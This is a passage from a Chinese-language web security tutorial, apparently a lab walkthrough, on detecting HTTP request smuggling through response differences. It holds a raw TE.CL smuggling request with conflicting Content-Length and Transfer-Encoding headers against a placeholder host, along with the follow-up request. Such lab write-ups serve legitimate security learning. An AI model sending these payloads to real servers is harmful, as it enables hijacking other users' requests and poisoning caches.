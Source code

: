 **<a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E5%88%A9%E7%94%A8%E5%93%8D%E5%BA%94%E5%B7%AE%E5%BC%82%E7%A1%AE%E8%AE%A4HTTP%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81%E4%B8%AD%E7%9A%84CL.TE%E6%BC%8F%E6%B4%9E"></a>配套靶场：利用响应差异确认HTTP请求走私中的CL.TE漏洞**

因为是CL.TE，所以可以这样构造payload

[<img class="aligncenter" alt="" data-original="https://p0.ssl.qhimg.com/t018d7f18e6eb619b9b.png">](https://p0.ssl.qhimg.com/t018d7f18e6eb619b9b.png)

发送两次以后，就会触发HTTP请求走私漏洞

[<img class="aligncenter" alt="" data-original="https://p4.ssl.qhimg.com/t017ff16b30fe9ed6e2.png">](https://p4.ssl.qhimg.com/t017ff16b30fe9ed6e2.png)

**<a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%93%8D%E5%BA%94%E5%B7%AE%E5%BC%82%E7%A1%AE%E8%AE%A4TE.CL%E6%BC%8F%E6%B4%9E"></a>利用响应差异确认TE.CL漏洞**

因为是TE.CL漏洞，所以CL头设置为第一个请求包之内的长度，TE头设置为分块编码，像这样

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0

```

值得注意的是0后面有一个\r\n\r\n，然后在Repeater中关闭了自动填充，这样就能走私出第二个请求包，然后第二个请求包中也会有一个CL头，这个CL头要足够大到能包含下一个接收到的请求包，此时会导致虽然第二次发出的是正常的请求包，也会因为与之前走私的请求包合并而接收到走私请求包应收到的响应，就判断存在TE.CL漏洞，像这样

```
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling

```
